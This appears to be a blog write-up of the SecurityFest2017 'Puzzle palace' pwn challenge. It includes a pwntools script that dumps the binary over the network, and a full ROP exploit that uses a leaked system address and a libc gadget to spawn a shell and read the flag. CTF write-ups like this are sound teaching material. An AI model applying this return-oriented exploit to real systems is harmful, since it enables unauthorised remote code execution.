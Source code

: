 ```yaml
---
layout: post
title: "SecurityFest2017 - Puzzle palace"
date:   2017-06-01 20:00
categories: CTF
tags: [SecurityFest2017]
categories: [pwn]
author: jbz
---
```


_Adventure time! Find the magic bytes, kill the wizard, get all the flags!_

Pwn - 100 Points

This was a very fun challenge, too bad it was only worth 100 points :). The organizer provided the libc and a README containing this: `Yep you only get the libc, connect to the service and go for an adventure to get the rest.`

You can find the provided archive [here](https://github.com/jbzteam/CTF/raw/master/SecurityFest2017/PuzzlePalace/puzzle_palace.tar.gz). The remote server was `pwn.ctf.rocks` port `6666`.

Great! Let's the fun start.

First of all we have to get the binary from the remote server. When we connect to it we find ourselves in front of this menu:
```
The Puzzle Palace
===============
1) Go on an adventure to find the magic bytes!
2) Fight the evil wizard with the magic bytes!
3) Return home with shame

#>
```
If we type `1` we get:
```
You enter the Puzzle Palace!
A message glows brightly on the wall of this room [7F454C4602010100000000000000000003003E0001000000100A000000000000400000000000000038210000000000000000000040003800090040001B001A00]
Where to now adventurer?
1) Up
2) Down

#>
```
We see `454C46`, which is the hex of `ELF`. That's probably the start of the binary. To get more of it we just have to type `2` in the prompt and it will continue playing bytes until EOF. I used this script to dump the whole thing:
```python
from pwn import *
s = remote("pwn.ctf.rocks", 6666)
s.sendlineafter("#>", "1")
with open("bin", "w") as f:
    while True:
        data = s.recvuntil("#>")
        data = data.split("[")[1].split("]")[0]
        print data
        data = data.strip()
        data = [data[i:i+2] for i in xrange(0,  len(data), 2)]
        for x in data:
            f.write(chr(int(x, 16)))
        s.sendline("2")
```
Yes, there is no check for EOF but the script crashes when it reached EOF so it's good enough :).

Let's see what the dumped binary is:
```
$ file challenge
challenge: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7c3b19746df3ef56476d19ce0f657e14c0eb19cb, stripped
$ checksec challenge 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Nasty... well let's see how it works.

We know `1` of the initial menu, which is the leak of the binary, nothing much else there. `3` just quits the program. There's an hidden menu item if you press `Z`:
```c
if ( menu_entry == 'Z' )
  printf("Woah, nice! You found the hidden 'system' libc address:%p!\n", &system);
```
It leaks the address of `system`! Handy! Let's remember it for later.

Let's now focus on `2`.
```
Hope you got those magic bytes ready!
The wizard points at you and starts yelling 'lightning bolt!'
This would be a good time use those magic bytes: 
```
This is what we see when we press `2` in the main menu prompt. Let's see what it does after that:
```c
read_s2(256);
if ( strncmp("1337p0werOverWhelMing1337", s2, 25uLL) )
{
  puts("You utter the magic bytes but they are wrong and the evil wizard burns you to a crisp, GG!");
  exit(0);
}
printf("Nice! Pwn the wizard with some ROP and ROLL now!: ");
return read(0, &buf, 0x1337uLL);
```
So:
- `read_s2` just zeroes `s2` and writes 256 bytes read from stdin to it
- If `s2` is not `1337p0werOverWhelMing1337` the program exits
- It reads 0x1337 bytes of data (that is 4919 bytes) and saves it in `buf`, which is just a pointer on the stack. Ok, we can write stuff... a lot of it :)

If you remember, the binary has `NX` enabled, so no shellcode on the stack. It doesn't have a stack canary, which makes things easier in this case. So we just have to control RIP and create a ROP chain to execute our shell.

This is the final exploit:
```python
from pwn import *

s = remote("pwn.ctf.rocks", 6666)
#s = process("./bin")
libc = ELF("libc.so.6_eea5f41864be6e7b95da2f33f3dec47f")

s.sendlineafter("#>", "Z")
data = s.recvuntil("#>")

system_address = int(data.split(":")[1].split("!")[0], 16)
sh_address = system_address - 210208
libc_base = system_address - 283536
pop_rdi = libc_base + 0x21102

ropchain = ""
ropchain = "A" * 8 * 5
ropchain += p64(pop_rdi)
ropchain += p64(sh_address)
ropchain += p64(system_address)
log.info("system: {:x}".format(system_address))
log.info("libc: {:x}".format(libc_base))
log.info("sh: {:x}".format(sh_address))

s.sendline("2")
s.sendlineafter(":", "1337p0werOverWhelMing1337")
s.sendlineafter(":", ropchain)
s.interactive()
```
We create a simple ROP chain that `pop`s the address that points to `sh` in `rdi` and then we call `system`. Pretty straightforward.

- We first leak `system`'s address, and since the organizer provided libc we can easily calculate the address of `sh` and the location of a `pop rdi` gadget.
- We then prepare the payload that contains:
  - 40 bytes of padding to get to RIP (found via gdb)
  - the address of `pop rdi` that will overwrite RIP
  - the address of `sh` that will be put in `rdi`
  - the address of `system` that will run what's in `rdi`

Of course, we have to pass the string `1337p0werOverWhelMing1337` first. And we get our shell:
```bash
$ python exploit.py 
[+] Opening connection to pwn.ctf.rocks on port 6666: Done
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] system: 7febe305e390
[*] libc: 7febe3019000
[*] sh: 7febe302ae70
[*] Switching to interactive mode
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag
SCTF{1_4lwa4y5_h4t3d_w1zard5}
```

Happy hacking!



